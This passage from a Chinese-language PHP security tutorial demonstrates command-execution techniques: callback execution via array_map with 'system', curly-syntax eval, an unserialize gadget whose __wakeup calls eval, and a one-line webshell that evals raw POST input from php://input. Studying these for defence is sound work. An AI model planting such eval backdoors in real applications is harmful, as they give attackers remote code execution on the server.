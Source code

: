 ### 4、回调函数

将想要执行命令的函数赋值给一个变量，再用一个可以调用函数执行的函数把变量解析成函数，这么说可能有点绕，看一下 array_map 函数的用法：array_map 函数中将 $arr 每个元素传给 func 函数去执行，例子：

```
<?php
$func = 'system';
$arr = array('whoami');
array_map($func, $arr);

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqcicRAzTZbdupHDtib9FeuoupnGOeKRjYBx3vJoA7gabZ615yEDdfxelQ/640?wx_fmt=jpeg)

### 5、PHP Curly Syntax

我们可以理解为字符串中掺杂了变量，再使用变量去拼接字符串，达到命令执行的效果

```
<?php
$a = 'p';
eval("{$a}hpinfo();");

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqcRjSbcRvdzlGlS8CrefAayh0icibFpSKml9No71ZuOxAfHpAcWE8HPiaw/640?wx_fmt=jpeg)

### 6、php 反序列化

这是根据 php 反序列化漏洞来实现命令执行，可以先创建一个反序列化的漏洞文件，再去调用反序列化函数`unserialize`

```
<?php

class test{
    public $a="123";
    public function __wakeup(){
        eval($this->a);
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:10:"phpinfo();";}');

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqaWPOF8oGOlpMvpBrCJiaWxN35iaNpmyJKbw8Zk4CoaJibCw9dHzomHoEw/640?wx_fmt=jpeg)

### 7、php://input 方法

`php://input`可以访问请求的原始数据的只读流，我们可以理解为我们传 post 参数，`php://input`会读取到，这时候我们就可以加以利用了

```
<?php
@eval(file_get_contents('php://input'));

```

